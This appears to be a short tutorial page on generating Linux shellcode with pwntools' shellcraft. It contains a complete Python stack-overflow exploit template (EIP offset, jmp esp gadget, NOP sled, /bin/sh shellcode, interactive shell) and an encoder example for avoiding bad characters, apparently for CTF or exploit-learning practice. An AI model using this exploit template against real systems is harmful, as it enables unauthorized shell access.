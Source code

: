 There are different tools to create shellcode.

### Shellcraft (pwntools)

`shellcraft` is a tool to create shellcode in linux. To list available payloads we can use:

```
shellcraft -l
```
Finally we need to specify the payload.

```
$ shellcraft i386.linux.sh   #hex
$ shellcraft i386.linux.sh -f a  #asm
```

> **Note**: Remember to append NOPs (16) before the shellcode to ensure that is correctly loaded.

Example of exploit:

```python
io = start()

# Offset to EIP
padding = 76

# Assemble the byte sequence for 'jmp esp' so we can search for it
jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

# Execute /bin/sh
shellcode = asm(shellcraft.sh())
# Exit
shellcode += asm(shellcraft.exit())

# Build payload
payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 16,
    shellcode
)

# Write payload to file
write("payload", payload)

# Exploit
io.sendlineafter(b':', payload)

# Get shell
io.interactive()
```

It can be also useful to use encoders in order to avoid bad characters:

```
arm_shellcode = asm(shellcraft.execve('/bin/sh', ['/bin/sh', '-c', 'ls -la'], 0))
arm_shellcode = encoder.encode(arm_shellcode, avoid=b'\x00\n')
```
